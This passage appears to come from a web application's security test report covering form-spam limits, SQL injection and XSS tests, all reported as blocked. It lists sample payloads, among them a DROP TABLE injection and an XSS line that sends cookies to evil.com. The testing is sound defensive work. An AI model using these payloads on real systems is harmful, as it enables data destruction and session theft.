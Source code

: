 ### Test 3: Automated Form Spam
**Attack Type:** Rapid-fire form submissions  
**Target:** Request creation endpoints  
**Test Volume:** 50 requests per second

**Results:**
- ✅ **Submission Limits:** Max 5 requests per hour per user
- ✅ **Duplicate Detection:** Identical requests blocked
- ✅ **CAPTCHA Trigger:** Human verification required after suspicious activity
- ✅ **Database Integrity:** No spam data persisted

---

## 🔓 Penetration Testing Results

### Test 4: SQL Injection Resistance
**Attack Vectors Tested:**
```sql
-- Union-based injection
' UNION SELECT password FROM users--

-- Boolean-based blind injection  
' AND (SELECT COUNT(*) FROM employees) > 0--

-- Time-based blind injection
'; WAITFOR DELAY '00:00:05'--

-- Stacked queries
'; DROP TABLE requests; CREATE TABLE requests(id INT);--
```

**Results:**
- ✅ **All Attacks Blocked:** Parameterized queries prevent injection
- ✅ **Input Sanitization:** All user input properly escaped
- ✅ **No Data Exposure:** Error messages don't reveal database structure
- ✅ **Query Monitoring:** Suspicious queries logged and blocked

### Test 5: Cross-Site Scripting (XSS) Prevention
**Attack Vectors Tested:**
```javascript
// Reflected XSS
<script>fetch('/api/employees').then(r=>r.json()).then(d=>console.log(d))</script>

// Stored XSS
<img src="x" onerror="document.location='http://evil.com?cookie='+document.cookie">

// DOM-based XSS
javascript:alert(document.cookie)

// Event handler injection
<div onmouseover="alert('XSS')">Hover me</div>
```
